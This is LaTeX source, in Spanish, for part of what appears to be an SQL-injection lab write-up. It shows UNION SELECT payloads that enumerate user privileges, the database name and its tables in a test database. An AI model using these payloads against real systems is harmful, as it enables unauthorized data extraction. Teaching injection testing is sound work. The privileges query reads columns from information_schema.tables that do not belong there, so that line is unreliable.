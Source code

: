 \documentclass[a4paper,oneside]{article}
\begin{document}
Con esta query podemos hemos sacado las tablas que tiene la base de datos. Veamos qué usuarios tiene y cuáles son sus permisos

\begin{lstlisting}[caption={Query para los privilegios de usuarios}, language=SQL]
UNION SELECT null, concat(GRANTEE,' ',PRIVILEGE_TYPE,' ' ,IS_GRANTABLE) FROM information_schema.tables;
\end{lstlisting}

\begin{figure}[h!]
  \centering
  \includegraphics[scale=0.3]{images/user_privileges.png}\\
  \caption{Query de obtención de usuarios y privilegios}
  \label{fig:user_privileges}
\end{figure}

Nos devuelve el usuario ``usqli'' sin privilegios.\\

Pasemos a ver la información de la base de datos que estamos utilizando.

\begin{lstlisting}[caption={Inyección SQL para sacar las tablas de la base de datos en uso}, language=SQL]
UNION SELECT null, database();
UNION SELECT null, table_name FROM information_schema.tables WHERE table_schema = database();
\end{lstlisting}
\begin{figure}[h!]
  \centering
  \includegraphics[scale=0.5]{images/db_name.png}\\
  \caption{Query de obtención del nombre de la base de datos}
  \label{fig:db_name}
\end{figure}
\end{document}

